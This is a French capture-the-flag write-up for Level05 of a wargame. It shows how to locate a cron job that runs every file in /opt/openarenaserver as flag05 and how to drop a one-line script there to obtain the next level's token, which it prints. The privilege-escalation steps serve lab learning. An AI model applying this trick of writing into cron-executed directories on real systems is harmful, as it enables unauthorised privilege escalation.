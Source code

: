 # Level05

Dans ce niveau, nous cherchons les privilèges du compte flag05. Nous commençons par rechercher des fichiers appartenant à l'utilisateur flag05 avec la commande suivante :

```bash
find / -user flag05 2> /dev/null
```

Cela nous donne deux résultats :
- /usr/sbin/openarenaserver
- /rofs/usr/sbin/openarenaserver
Nous examinons ensuite le contenu du fichier ```/usr/sbin/openarenaserver``` avec la commande cat pour comprendre ce qu'il fait. Le contenu du fichier est le suivant :

```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done
```

Ce script parcourt tous les fichiers dans le répertoire /opt/openarenaserver et les exécute en limitant leur temps d'exécution à 5 secondes. Ensuite, il supprime ces fichiers.

Notre objectif est d'exploiter cette configuration pour obtenir des privilèges supplémentaires. Nous allons créer un fichier shell malveillant qui exécute la commande getflag pour récupérer le jeton du niveau suivant :

```bash
openarenaserver
/usr/sbin/openarenaserver: Permission denied
```

on va regarder les privilege de Level05
```bash
find / -name level05 2> /dev/null

/var/mail/level05
/rofs/var/mail/level05

cat /var/mail/level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Le script /usr/sbin/openarenaserver parcourt tous les fichiers dans le répertoire /opt/openarenaserver et les exécute avec un délai de 5 secondes (ulimit -t 5). Ensuite, il supprime ces fichiers.

Notre objectif est d'exploiter cette configuration pour obtenir des privilèges supplémentaires:

Créez un fichier shell malveillant qui exécute la commande getflag pour récupérer le jeton du niveau suivant.
```sh
echo '/bin/getflag > /tmp/flag05' > /opt/openarenaserver/getflag05
```

Ce fichier malveillant sera exécuté lors de la prochaine itération du script /usr/sbin/openarenaserver.

Ensuite, nous attendons que le job cron programmé s'exécute et crée le fichier ```/tmp/flag05```, qui contiendra le jeton du niveau suivant. Une fois que le job cron s'est exécuté, nous lisons le contenu du fichier ```/tmp/flag05``` pour obtenir le jeton :
```bash
cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
```


